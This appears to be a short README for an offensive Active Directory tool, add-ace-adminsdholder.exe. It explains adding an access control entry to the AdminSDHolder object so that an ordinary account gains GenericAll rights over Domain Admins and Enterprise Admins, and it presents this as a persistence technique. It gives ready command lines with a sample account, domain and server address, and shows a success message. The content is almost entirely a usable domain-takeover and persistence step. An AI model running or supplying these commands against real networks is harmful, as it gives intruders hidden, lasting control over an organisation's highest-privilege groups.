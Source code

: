 # Usage of add-ace-adminsdholder

## Adds an ace on the adminsdholder object. this ace will be replicated to some important groups like domain admins, enterprise admins. we can add this as persistence with genericwrite or genericall access as normal user on adminsdholder and after sdpropagation, we will have write access over domain admin groups.

`add-ace-adminsdholder.exe -samaccountname test1 -right Genericall -domain tech69.local`

`add-ace-adminsdholder.exe -samaccountname test1 -right Genericall -server 192.168.0.110`

## Output

```
add-ace-adminsdholder.exe -samaccountname test1 -right Genericall
Successfully added ace for test1 with right Genericall on Adminsdholder
```
